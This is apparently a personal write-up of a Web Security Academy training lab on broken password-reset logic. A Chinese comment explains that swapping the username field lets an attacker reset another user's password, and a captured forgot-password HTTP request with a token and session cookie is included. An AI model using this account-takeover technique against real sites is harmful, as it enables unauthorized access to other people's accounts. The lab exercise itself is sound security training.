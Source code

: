 # Lab: Password reset broken logic

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

* Your credentials: wiener:peter
* Victim's username: carlos

## Authentication
* 稍微觀察一下可以發現 username 的地方改成 carlos 就可以改掉他的密碼了
```
POST /forgot-password?temp-forgot-password-token=amUyWbjJJOV676AjICG07G5ppUqCvJDD HTTP/1.1
Host: acf21f871e4e8ec8c0fd8a73005a0048.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5 (Ergänzendes Update)) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: https://acf21f871e4e8ec8c0fd8a73005a0048.web-security-academy.net
Connection: close
Referer: https://acf21f871e4e8ec8c0fd8a73005a0048.web-security-academy.net/forgot-password?temp-forgot-password-token=amUyWbjJJOV676AjICG07G5ppUqCvJDD
Cookie: session=tJHPtO9BEO4o6G6l6UJzJ1oNSsdecFM8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1

temp-forgot-password-token=amUyWbjJJOV676AjICG07G5ppUqCvJDD&username=wiener&new-password-1=123&new-password-2=123
```